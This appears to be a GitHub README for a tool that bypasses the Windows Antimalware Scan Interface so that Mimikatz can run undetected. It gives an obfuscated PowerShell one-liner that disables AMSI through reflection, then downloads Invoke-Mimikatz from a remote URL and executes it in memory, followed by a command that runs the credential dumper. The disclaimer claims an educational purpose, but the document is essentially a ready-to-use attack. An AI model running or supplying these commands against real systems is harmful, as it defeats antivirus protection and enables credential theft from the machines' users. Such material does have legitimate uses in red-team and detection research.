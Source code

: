 # 🔥 AMSI Bypass + Mimikatz Execution

This repository provides a method to bypass the **Windows Antimalware Scan Interface (AMSI)**, allowing **Mimikatz** to execute without triggering antivirus detection.  
⚠️ **This technique is for educational and research purposes only.** Use it responsibly.

---

## 🚀 How to Use

### **Step 1: Disable AMSI in PowerShell**
Run the following command in **PowerShell** to bypass AMSI:

```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType("System.Management.Automation.${b}${a}Utils");$z=$Ref.GetField("am${a}InitFailed",'NonPublic,Static');$z.SetValue($null,$true);$Y=New-Object Net.WebClient;$script=$Y.DownloadString("https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1");Invoke-Expression $script
```
### **Step 2: Execute Mimikatz**
Run the following command in **PowerShell** to execute Mimikatz:

```powershell
Invoke-Mimikatz
````

